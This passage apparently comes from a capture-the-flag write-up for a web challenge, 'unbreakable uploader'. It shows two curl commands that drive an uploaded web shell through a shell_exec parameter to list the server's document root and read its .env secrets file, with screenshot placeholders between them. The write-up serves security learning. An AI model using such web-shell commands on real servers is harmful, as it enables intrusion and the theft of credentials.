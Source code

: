 So let's check the project document root

``
curl -i -X POST "https://web3.ctfsecurinets.com/uploads/9b3aa7a5c5cebd1318e79442144ffa63/18abe44ac4242278ad0e6448370067d5.png?0=shell_exec" -d "1=ls ../../../ -lA"
``

<p align="center">
<img src="resources/web-1000-unbreakable_uploader/17.PNG"/>
</p>

`.env` file exists. So let's cat it

``
curl -X POST "https://web3.ctfsecurinets.com/uploads/9b3aa7a5c5cebd1318e79442144ffa63/18abe44ac4242278ad0e6448370067d5.png?0=shell_exec" -d "1=cat ../../../.env"
``

<p align="center">
<img src="resources/web-1000-unbreakable_uploader/18.PNG"/>
</p>
